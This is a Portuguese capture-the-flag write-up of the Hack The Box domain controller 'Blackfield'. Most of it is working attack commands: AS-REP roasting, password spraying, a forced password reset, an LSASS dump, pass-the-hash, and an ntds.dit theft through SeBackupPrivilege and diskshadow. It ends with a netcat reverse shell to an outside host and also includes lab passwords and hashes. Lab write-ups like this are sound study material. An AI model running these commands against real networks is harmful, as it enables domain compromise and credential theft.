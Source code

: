 Blackfield
========================

![qownnotes-media-mCrkDI](../../../teste/qownnotes-media-mCrkDI.png)

DNS

![qownnotes-media-dgSmXh](../../.gitbook/assets/qownnotes-media-dgSmXh.png)

Kerberos (88)

RPC (135/593)

![qownnotes-media-BPEaBn](../../.gitbook/assets/qownnotes-media-BPEaBn.png)

SMB

![qownnotes-media-NmDyiC](../../.gitbook/assets/qownnotes-media-NmDyiC.png)

    impacket-lookupsid blackfield.local@10.10.10.192

![qownnotes-media-RQJgHM](../../.gitbook/assets/qownnotes-media-RQJgHM.png)

![qownnotes-media-FhwUbl](../../.gitbook/assets/qownnotes-media-FhwUbl.png)

![qownnotes-media-ORXbBb](../../.gitbook/assets/qownnotes-media-ORXbBb.png)

Valid usernames:
```
cat valid_users.txt                             
audit2020
svc_backup
support
lydericlefebvre
```

    impacket-GetNPUsers -request blackfield.local/ -usersfile valid_users.txt -dc-ip 10.10.10.192

![qownnotes-media-qIAMGO](../../.gitbook/assets/qownnotes-media-qIAMGO.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt svc_backup_hash.txt



LDAP (389/3268)

![qownnotes-media-JfBrKY](../../.gitbook/assets/qownnotes-media-JfBrKY.png)


## Exploitation

Creds:

support:#00^BlackKnight

### Password spray

    crackmapexec smb 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

![qownnotes-media-ZSgQkd](../../.gitbook/assets/qownnotes-media-ZSgQkd.png)

    kerbrute passwordspray -d blackfield.local --dc dc01.blackfield.local valid_users.txt '#00^BlackKnight'

### Shares Enumeration Authenticated

    crackmapexec smb 10.10.10.192 -u support -p passwords.txt --shares

![qownnotes-media-GpUPaM](../../.gitbook/assets/qownnotes-media-GpUPaM.png)

    enum4linux -u support -p '#00^BlackKnight' -a -A 10.10.10.192

Obtive outros usuários

### SPNs Kerberoasting

    impacket-GetUserSPNs -request blackfield.local/support:#00^BlackKnight -dc-ip 10.10.10.192

### Domain Enumeration with bloodhound

Aqui temos algumas coisas interessantes para olhar. Vamos considerar o seguinte:

GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group

Isso pode ser visto nesta sessão do bloodhound:

![qownnotes-media-VpIkpQ](../../.gitbook/assets/qownnotes-media-VpIkpQ.png)

Caso contrário, podemos considerar algumas opções ainda no bloodhound, tais como:

Setar todos os demais usuários como "High Value" e verificar no filtro como fazer para encontrá-lo nas análises e filtros do bloodhound, conforme eu já faço.

Aqui eu notei que o ataque pode ocorrer devido a uma permissão vista conforme o print que tirei acima:

![qownnotes-media-DbfaCf](../../.gitbook/assets/qownnotes-media-DbfaCf.png)

ou 

![qownnotes-media-hjpSiZ](../../.gitbook/assets/qownnotes-media-hjpSiZ.png)

![qownnotes-media-Bytuhu](../../.gitbook/assets/qownnotes-media-Bytuhu.png)


### rpcclient

    rpcclient -U blackfield.local/support 10.10.10.192
    setuserinfo2 audit2020 23 P@ssword!

Agora a gente faz uma nova enumeração de shares e encontramos informações que nos ajudaram a entrar como o svc_backup na máquina:

![qownnotes-media-FvwmuB](../../.gitbook/assets/qownnotes-media-FvwmuB.png)

![qownnotes-media-SSgLdY](../../.gitbook/assets/qownnotes-media-SSgLdY.png)

Baixei esses arquivos, mas o que fez realmente a diferença foi o de memória, onde peguei o LSASS da máquina e fiz o dump da memória com pypykatz:

    pypykatz lsa minidump lsass.DMP

![qownnotes-media-FKKKEa](../../.gitbook/assets/qownnotes-media-FKKKEa.png)

    evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## PrivEsc

Aqui um aprendizado novo!!!

![qownnotes-media-wuUvdy](../../.gitbook/assets/qownnotes-media-wuUvdy.png)

com a permissão de SeBackupPrivilege dá pra conseguir fazer a cópia dos arquivos mais sensíveis do sistema, tais como o system e a sam, a considerar uma máquina fora do domínio podemos prosseguir com os seguintes comandos:

    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system

Mas para o caso do Domain Controller, temos de considerar os seguintes comandos:

Criar um arquivo, cujo extensão tem de ser  ".dsh"

    cat test.dsh
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

    unix2dos test.dsh

Subir para a máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    reg save hklm\system c:\Temp\system
Se atentar somente ao diretório direitinho no qual se está operando:
Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-CfcHGG](../../.gitbook/assets/qownnotes-media-CfcHGG.png)

    impacket-psexec administrator@10.10.10.192 -hashes :184fb5e5178480be64824d4cd53b99ee

    evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Subi o psexec para a máquina e o netcat e fiz a shell para system dessa forma:

    .\pe.exe -accepteula -i -s -d c:\temp\n.exe -e powershell 10.10.14.14 8082
 
![qownnotes-media-bFWfpH](../../.gitbook/assets/qownnotes-media-bFWfpH.png)